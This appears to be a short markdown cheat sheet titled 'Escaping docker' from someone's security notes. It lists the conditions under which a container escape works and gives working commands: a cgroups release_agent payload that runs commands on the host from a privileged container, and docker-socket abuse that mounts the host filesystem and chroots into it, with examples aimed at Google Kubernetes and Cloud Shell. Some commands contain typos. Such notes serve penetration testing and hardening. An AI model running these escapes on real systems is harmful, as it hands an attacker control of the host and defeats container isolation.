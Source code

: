 # Escaping docker

## Quick summary

Docker runs with root rights. Even when it's running within the docker group. The docker communicates with the containers through a unix socket.

Docker in docker is fairly common. To do this the host's docker socket has to be mounted in the docker container (there are other ways, but this is the most common one).  Used in e.g. Portainer.

The `--privileged` flag exploit relies on relaunching a docker container with this flag. When using this flag, containers have full access to all devices and lack restrictions from sccomp, AppArmor and Linux capabilities

But the `--privileged` flag is overkill, the only needed requirements are:

- Have root in container

- Container must be run with the `SYS_ADMIN`  Linux capability

- Container  must lack AppArmor profile, or otherwise allow the `mount` syscall

- The cgroup v1 virtual filesystem mst be mounted read-write inside the container

By default, docker starts with restricted set of capabilities (doesnt include SYS_ADMIN), and default AppArmor profile is `docker-default`, which prevents the mount syscall.

Default unix socket:

    /var/run/docker.sock

## Quick and dirty way to get out of a privileged k8s pod or docker container

Using cgroups release_agent feature:

```bash
docker run -it --privileged busybox /bin/sh / # echo {payload} | base64 -d > undock.sh
```

Where payload is the following text, base64 encoded:

```bash
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```

## Example escape from google k8s

The host is mounted in the container at /host/google/docker/run

```bash
sudo docker -H unix://<docker socket> pull alpine:latest
sudo docker -H unix://<docker socket> run \
    -d \
    -it \
    --name <containername> \
    -v "/proc:/host/proc" \
    -v "/sys:/host/sys" \
    -v "/:/rootfs" \
    --network=host \
    --privileged=true
    --cap-add=ALL
    alpine:latest
sudo docker -H unix://<socket socket> start <containername>
sudo docker -H unix://<socker socket> exec -it <containername> /bin/sh
chroot /rootfs
# You are now in a container with a lot more privileges
docker ps #(will list all docker containers on host)
```

Example - escape docker cloud shell to host OS

```bash
sudodocker -H unix:///google/host/var/run/docker.sock run -v /:/host -it ubuntu chroot /host/bin/bash
```

Sources:

- https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/

- 
